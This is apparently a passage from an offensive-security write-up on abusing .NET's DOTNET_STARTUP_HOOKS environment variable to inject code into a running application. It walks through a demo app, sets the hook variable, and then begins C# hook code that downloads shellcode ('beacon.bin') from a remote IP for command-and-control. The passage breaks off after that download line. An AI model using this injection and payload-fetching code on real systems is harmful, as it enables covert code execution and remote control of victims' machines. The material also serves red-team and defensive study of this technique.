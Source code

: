 Consider this very basic .NET Console application:

```
namespace DemoApp;

internal static class Program
{
    public static async Task Main(string[] args)
    {
        while (true)
        {
            var date = DateTime.UtcNow;
            Console.WriteLine($"The time is {date:T}.");

            await Task.Delay(new TimeSpan(0, 0, 10));
        }
    }
}
```

This can be built (in this example to a native Windows EXE) and run, like so:

```
cd C:\Users\Daniel\source\repos\DemoApp\
dotnet publish -c Release -r win-x64

cd .\DemoApp\bin\Release\net6.0\win-x64\publish\

.\DemoApp.exe
The time is 18:28:12.
The time is 18:28:22.
The time is 18:28:32.
```

To inject our hook, create the `DOTNET_STARTUP_HOOKS` environment variable and have it point to our DLL:

```
$env:DOTNET_STARTUP_HOOKS = "C:\DemoStartupHook.dll"
```

Note: you can provide multiple DLLs by separating them with a semi-colon. In which case, each will be executed sequentially.

Execute DemoApp again and we can see our injected code is run.

```
.\DemoApp.exe
Hello from injected code!
The time is 18:42:37.
The time is 18:42:47.
```

This could quite easily be extended to inject shellcode for C2 purposes.

```
using System.Runtime.InteropServices;

internal class StartupHook
{
    public static void Initialize()
    {
        var thread = new Thread(RunBeacon);
        thread.Start();
    }

    private static async void RunBeacon()
    {
        using var client = new HttpClient();
        var shellcode = await client.GetByteArrayAsync("http://172.18.227.121/beacon.bin");
```